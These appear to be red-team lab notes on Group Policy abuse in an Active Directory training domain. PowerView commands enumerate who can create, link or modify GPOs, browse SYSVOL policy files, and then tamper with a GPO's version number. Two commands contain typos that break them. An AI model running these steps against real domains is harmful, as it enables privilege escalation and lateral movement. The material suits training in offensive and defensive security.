 The Powerview Enumeration The User could be able to create A new GPO
```
powershell Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=cyberbotic,DC=io" -ResolveGUIDs | Where-Object { $_.ObjectAceType -eq "Group-Policy-Container" } 

```
To Figure out who User is belong to Group
```
powershell ConvertFrom-SID S-1-5-21-3865823697-1816233505-1834004910-1605
```

Which User had authorized to Manage GPLINK for a Given OU.
```
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link"}
powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

```
Which User could be able to authorized to modify the Existing GPO
```
powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | WhereObject { $_.ActiveDirectoryRights -match "WriteProperty| WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "SID-[\d]{4,10}"}
```

```
ls \\cyberbotic.io\SYSVOL\cyberbotic.io\Policies\
ls \\cyberbotic.io\SYSVOL\cyberbotic.io\Policies\{66E4449B-408B-490A-A3F5-DA8B934DA2AC}
shell type  "\\cyberbotic.io\SYSVOL\cyberbotic.io\Policies\{66E4449B-408B-490A-A3F5-DA8B934DA2AC}\GPT.INI"

powershell Get-DomainGPO -Identity "MeMe GPO" -Properties VersionNumber
powershell Get-DomainGPO -Identity "MeMe GPO" | Set-DomainObject -Set @{'versionnumber'='1337'}
powershell Get-DomainGPO -Identity "MeMe GPO" | SetDomainObject -Set @{'versionnumber'='1337'}
```
